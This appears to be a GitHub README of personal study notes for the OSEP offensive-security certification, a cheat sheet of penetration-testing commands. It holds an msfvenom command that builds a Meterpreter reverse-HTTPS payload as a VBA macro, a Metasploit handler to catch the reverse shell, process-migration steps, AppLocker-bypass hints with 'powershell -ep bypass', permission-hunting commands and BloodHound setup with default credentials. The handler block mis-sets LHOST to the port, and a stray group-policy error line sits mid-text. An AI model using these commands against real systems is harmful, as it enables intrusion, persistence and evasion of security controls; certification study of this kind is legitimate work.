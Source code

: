 # OSEP-Prep-Notes
OSEP Prep Notes



# Kali File Transfer Server

python -m uploadserver 8000

# RDP with xFreeRDP

xfreerdp /u:USERNAME /p:PASSWORD /w:1366 /h:768 /v:SERVER_IP

# VBA Application Script

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.xx.xx LPORT=443 EXITFUNC=thread -f vbapplication

# Listen With Meterpreter

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST OUR_KALI_IP
set LHOST 443
set EXITFUNC thread
run
```

# Post Exploitation - Migrate To Another Process

```
ps
> find a suitable process (like notepad.exe etc.)

migrate PID_OF_PROCESS
> the migration is success.

run post/windows/manage/migrate
> You should try this too.
```

# Post Exploitation - Find Readable and Writable Folders
This program is blocked by group policy. For more information, contact your system administrator.
```
accesschk.exe "PWNED_USERNAME" C:\Windows -wus
> Find a RW folder and use the folder for AppLocker Bypass.

or in "powershell -ep bypass"
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

# Post Exploitation - Find Executable in Folders:
```
icacls C:\Windows\Tasks
> Find a folder that you have the RX permission.
```

# Bloodhound - Init
```
neo4j console
> Open bloodhound app in Kali after the neo4j started.
>localhost:7474 neo4j:neo4j

```
